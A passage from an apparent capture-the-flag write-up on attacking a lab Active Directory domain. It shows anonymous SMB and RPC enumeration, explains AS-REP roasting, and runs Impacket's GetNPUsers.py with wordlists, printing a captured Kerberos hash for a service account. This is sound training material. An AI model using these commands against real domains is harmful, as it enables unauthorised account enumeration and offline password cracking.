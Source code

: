 ```
❯ smbclient -L \\10.10.28.119 -N
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
SMB1 disabled -- no workgroup available
```

#### rpcclient null
rpcclient - tool for executing client side  MS-RPC functions

| argument | description |
| -------- | ----------- |
| -U       | user        |
| -N       | null pass   |

```
❯ rpcclient -U "" 10.10.28.119 -N
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $>
```
## AS-REP roasting
ASReproasting occurs when a user account has the **No prior authentication required** privilege set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

### Enumerating users via kerberos
In this section, a [list of users](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt) and a list of modified [passwords](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt) will be used to reduce the time of user enumeration and password hashing decryption. Using brute force credentials is NOT recommended due to account lockout policies that we cannot enumerate on the domain controller.

Impacket has a tool called **GetNPUsers.py** (located at impacket/examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center.

```
❯ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py spookysec.local/ -no-pass -usersfile userlist.txt | grep -v "SessionError"
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:5074d38e8727870e0a5716559eee4785$56dab197a6006af987bc542101c4b04c9d01debef4c90735042ff072a4aa25138261f84cdbf502b456a738ed3c84d069c7956ff20d2fbca7ac31662e70e7f5513c3589b00eb26dbe9f125e91c9f125b45dbeea8020e85c3ef9a3e2414589627aa3fa961a61706e3089ca642f2eacefd4416ed7f4ac0306aa0726fc5c4b65ac064918e13590a2d62ed4b25d4bb5a2cf50f72f913b3859736bf7655e142c5c1e80c664782ba93de750ca3750a5e2aeb6a0393dc0229a57f771e35a5665aeb2309c65f4be2f17b9c9b33a851ff347ea18c78ceb97ffe9f7882c4d30d81616350f37832e0c0659ae595e4b0554b9ddb2d6d19924
[-] User James doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set
[...]
```
